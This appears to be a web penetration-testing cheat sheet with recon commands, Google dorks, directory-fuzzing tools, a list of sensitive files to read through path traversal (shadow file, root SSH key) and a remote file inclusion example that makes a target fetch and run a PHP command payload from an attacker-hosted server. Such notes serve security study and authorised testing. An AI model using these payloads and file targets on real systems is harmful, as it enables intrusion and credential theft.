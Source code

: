 ## Discover Favicon

1. Find favicon endpoint in page source
2. Curl to check md5 hash value
3. Check Favicon framework -> https://wiki.owasp.org/index.php/OWASP_favicon_database

Example of curl:
```
$ curl https://<domain_name>/sites/favicon/images/favicon.ico | md5sum
```

## Worth to check

To find endpoints:
* robots.txt
* sitemap.xml

To find frameworks versions:
* curl with verbose (-v)
* Wappalyzer

To find subdomains:
* https://crt.sh
* https://transparencyreport.google.com/https/certificates
* Google dorking, eg:
```
-site:www.tryhackme.com site:*.tryhackme.com
```
* dnsrecon
* Sublist3r

Google Dorking:
* site:<domain_name> -> returns results only from the specified website address
* inurl:admin -> returns results that have the specified word in the URL
* filetype:pdf -> returns results which are a particular file extension
* intitle:admin -> returns results that contain the specified word in the title
LINK: https://en.wikipedia.org/wiki/Google_hacking

Wayback Machine -> https://archive.org/web/

S3 Bucket - AWS storage
```
http(s)://{name}.s3.amazonaws.com
eg. {name}-assets, {name}-www, {name}-public, {name}-private
```
---
## Path Traversal (Directory traversal/dot-dot-slash attack)

Allows an attacker to read operating system resources, such as local files on the server running an application


#### Interesting paths:
* /etc/issue - contains a message or system identification to be printed before the login prompt.
* /etc/profile - controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived
* /proc/version - specifies the version of the Linux kernel
* /etc/passwd - has all registered user that has access to a system
* /etc/shadow - contains information about the system's users' passwords
* /root/.bash_history - contains the history commands for root user
* /var/log/dmessage - contains global system messages, including the messages that are logged during system startup
* /var/mail/root - all emails for root user
* /root/.ssh/id_rsa - Private SSH keys for a root or any known valid user on the server
* /var/log/apache2/access.log - the accessed requests for Apache  webserver
* C:\boot.ini - Windows, contains the boot options for computers with BIOS firmware
---

## Local File Inclusion (﻿LFI)

---
## Remote File Inclusion (RFI)

Occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function
* PHP -> the allow_url_fopen option needs to be on

Allow an attacker to gain Remote Command Execution (RCE) on the server. 
Consequences of a successful RFI attack:
* Sensitive Information Disclosure
* Cross-site Scripting (XSS)
* Denial of Service (DoS)

### PHP example

1. Create a file hack.txt with this content:
   ```
   <?PHP print exec('whoami'); ?>
   ```
2. Create a server using Python
   ```
   $ python3 –m http.server <port>
   ```
3. Include in URL:
   ```
   http://example.com/index.php?file=http://<IP>:<port>/hack.txt
   ```


---
## Automation

The best wordlists:
https://github.com/danielmiessler/SecLists

### Tools

#### FFUF
Endpoints
```
$ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.0.138/FUZZ
```

Virtual Hosts
The above command uses the -w switch to specify the wordlist we are going to use. 
The -H switch adds/edits a header (in this instance, the Host header), we have the FUZZ keyword 
in the space where a subdomain would normally go, and this is where we will try all the options from the wordlist.
```
$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.<domain_name>" -u http://<IP_address>
```
Add `-fs {size}` to list only records with most often used `size`.

#### DIRB
```
$ dirb http://10.10.0.138/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```
#### GOBUSTER
```
$ gobuster dir --url http://10.10.0.138/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

#### DNSRECON
```
$ dnsrecon -t brt -d <domain_name>
```

#### Sublist3r
```
$ ./sublis3r.py -d <domain_name>
```

